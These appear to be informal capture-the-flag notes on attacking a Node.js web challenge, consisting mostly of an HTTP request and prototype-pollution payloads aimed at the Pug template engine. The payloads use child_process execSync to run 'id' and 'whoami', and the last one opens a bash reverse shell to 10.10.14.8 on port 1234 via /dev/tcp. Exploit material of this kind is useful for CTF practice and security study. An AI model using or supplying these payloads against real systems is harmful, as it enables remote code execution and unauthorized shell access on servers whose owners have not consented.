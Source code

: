 * I will try to see if we have sql injection  


* The post request's body is being sent as a json object  
```
POST /api/submit HTTP/1.1

Host: 64.227.39.89:30230
Content-Length: 22
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://64.227.39.89:30230
Referer: http://64.227.39.89:30230/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close



{"artist.name":"abcd"}
```  

* Imma try and gobuster it see if I find anything or maybe try using feroxbuster. Maybe check a word list specifically for apis.  
* There is no need to brute force directories I found an RCE exploit but it kept giving me command failed.
* Anyway the backend is nodejs.

```js
Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
```

```json
"Haigh {'__proto__.block': {'type': 'Text','line': 'process.mainModule.require(\'child_process\').execSync(\'whoami\', function puts(error, stdout, stderr) {})'}}"

{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('whoami', function puts(error, stdout, stderr) {})"
}}
```

```json
{
    "artist.name": "Haigh;console.log(process.mainModule.require('child_process').execSync('id').toString())"
}
```

```
//pug
"__proto__.block": {
        "type": "Text", 
        "val": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/10.10.14.8/1234 0>&1'`)"
    }
```